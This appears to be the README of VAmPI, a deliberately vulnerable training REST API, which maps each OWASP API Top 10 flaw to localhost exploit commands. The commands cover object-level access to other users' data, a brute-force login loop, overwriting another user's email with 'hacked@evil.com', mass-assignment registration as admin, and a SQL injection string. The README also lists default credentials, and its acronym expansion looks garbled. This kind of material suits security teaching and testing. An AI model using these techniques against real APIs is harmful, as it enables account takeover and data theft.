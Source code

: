 # VAmPI - Vulnerable API

## Overview
VAmPI (Vulnerable Ass-Model Plugin Interface) is a vulnerable REST API designed to demonstrate OWASP API Security Top 10 vulnerabilities.

## Quick Start

**Access URL**: http://localhost:5000

**API Documentation**: http://localhost:5000/docs

**Default Users**:
- Username: `admin` / Password: `admin`
- Username: `name1` / Password: `pass1`
- Username: `name2` / Password: `pass2`

## API Endpoints

### Public Endpoints
- `GET /` - Home
- `GET /users/v1` - Get all users
- `POST /users/v1/register` - Register new user
- `POST /users/v1/login` - Login

### Protected Endpoints
- `GET /users/v1/{username}` - Get user details
- `PUT /users/v1/{username}/email` - Update email
- `PUT /users/v1/{username}/password` - Update password
- `GET /books/v1` - Get all books
- `POST /books/v1` - Add new book

## Vulnerabilities

### 1. API1:2019 - Broken Object Level Authorization (BOLA)
- **Location**: `/users/v1/{username}`
- **Exploit**: Access other users' data
```bash
# Get another user's details
curl http://localhost:5000/users/v1/admin \
  -H "Authorization: Bearer YOUR_TOKEN"
```

### 2. API2:2019 - Broken User Authentication
- **Location**: `/users/v1/login`
- **Issues**: Weak passwords allowed, no rate limiting
```bash
# Brute force attack
for pass in $(cat passwords.txt); do
  curl -X POST http://localhost:5000/users/v1/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"'$pass'"}'
done
```

### 3. API3:2019 - Excessive Data Exposure
- **Location**: `/users/v1`
- **Issue**: Returns all user data including passwords
```bash
curl http://localhost:5000/users/v1
```

### 4. API4:2019 - Lack of Resources & Rate Limiting
- **Issue**: No rate limiting on any endpoint
- **Exploit**: DoS, brute force attacks

### 5. API5:2019 - Broken Function Level Authorization
- **Location**: `/users/v1/{username}/email`
- **Exploit**: Update other users' data
```bash
# Update another user's email
curl -X PUT http://localhost:5000/users/v1/name2/email \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"email":"hacked@evil.com"}'
```

### 6. API6:2019 - Mass Assignment
- **Location**: `/users/v1/register`
- **Exploit**: Set admin privileges during registration
```bash
curl -X POST http://localhost:5000/users/v1/register \
  -H "Content-Type: application/json" \
  -d '{"username":"hacker","password":"pass","admin":true}'
```

### 7. API7:2019 - Security Misconfiguration
- **Debug mode enabled**: Stack traces exposed
- **CORS misconfigured**: Allows any origin
- **Verbose errors**: Information disclosure

### 8. API8:2019 - Injection
- **SQL Injection** in book search
```bash
curl "http://localhost:5000/books/v1?title=' OR '1'='1"
```

### 9. API9:2019 - Improper Assets Management
- **Old API version** still accessible: `/users/v0`
- **Undocumented endpoints** exposed

### 10. API10:2019 - Insufficient Logging & Monitoring
- **No logging** of authentication failures
- **No monitoring** of suspicious activities

## Testing with Postman

Import the VAmPI collection:
1. Open Postman
2. Import → Link → `https://raw.githubusercontent.com/erev0s/VAmPI/master/postman/VAmPI.postman_collection.json`
3. Set environment variable `host` to `localhost:5000`

## Automated Testing

### Using OWASP ZAP
```bash
# API scan
zap-cli quick-scan --self-contained \
  --start-options '-config api.disablekey=true' \
  http://localhost:5000
```

### Using Burp Suite
1. Configure proxy
2. Import OpenAPI spec from `/docs`
3. Use Scanner to find vulnerabilities

## Learning Objectives
- Understanding OWASP API Security Top 10
- API authentication and authorization
- Rate limiting importance
- Input validation in APIs
- API versioning security

## Defense Mechanisms (What's Missing)
- ❌ Proper authentication (JWT validation)
- ❌ Authorization checks (RBAC)
- ❌ Rate limiting
- ❌ Input validation
- ❌ Secure password storage
- ❌ API versioning strategy
- ❌ Logging and monitoring

## Additional Resources
- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [API Security Checklist](https://github.com/shieldfy/API-Security-Checklist)
- [VAmPI GitHub](https://github.com/erev0s/VAmPI) 
